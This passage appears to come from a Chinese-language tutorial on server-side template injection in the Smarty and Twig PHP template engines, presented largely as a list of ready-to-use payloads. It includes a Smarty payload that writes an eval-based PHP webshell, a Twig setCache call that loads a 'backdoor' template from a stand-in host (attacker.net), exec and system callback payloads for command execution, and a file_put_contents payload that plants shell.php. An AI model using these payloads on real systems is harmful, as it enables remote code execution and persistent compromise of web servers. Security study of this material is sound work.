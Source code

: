 payload:

```php
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php eval($_GET['cmd']); ?>",self::clearConfig())}
```

常用的payload

```
{$smarty.version}  #获取smarty的版本号
{php}phpinfo();{/php}  #执行相应的php代码##在最新版已经废弃
{if phpinfo()}{/if}  #全部的PHP条件表达式和函数都可以在if内使用，如||*，or，&&，and，is_array()等等，如：{if is_array($array)}{/if}*，也可以执行php代码
```

2.Twig

相比于 Smarty ,Twig 无法调用静态方法，并且所有函数的返回值都转换为字符串，也就是我们不能使用 `self::` 调用静态变量了。但是可以查阅[官方文档](https://twig.symfony.com/doc/2.x/templates.html)

Twig 给我们提供了一个 `_self`, 虽然 `_self` 本身没有什么有用的方法，但是却有一个 env。env是指属性Twig_Environment对象，Twig_Environment对象有一个 setCache方法可用于更改Twig尝试加载和执行编译模板（PHP文件）的位置(不知道为什么官方文档没有看到这个方法，后来我找到了Twig 的源码中的 environment.php

![](https://picture-1253331270.cos.ap-beijing.myqcloud.com/Twig_setCache.png)

因此，明显的攻击是通过将缓存位置设置为远程服务器来引入远程文件包含漏洞：

```
{{_self.env.setCache("ftp://attacker.net:2121")}}
{{_self.env.loadTemplate("backdoor")}}
```

但是这里就又需要我们的远程文件包含漏洞了。allow_url_include 一般是不打开的，没法包含远程文件。

新的大佬又出现了:

 [getFilter()](https://github.com/twigphp/Twig/blob/e22fb8728b395b306a06785a3ae9b12f3fbc0294/lib/Twig/Environment.php#L874)

我们只要把exec() 作为回调函数传进去就能实现命令执行了.

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

版本3.x的payload,围绕几个fliter

- map

`{{["id"]|map("system")|join(",")`

`{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}`

- sort

`{{["id", 0]|sort("system")|join(",")}}`

- filter

  `{{["id"]|filter("system")|join(",")}}`
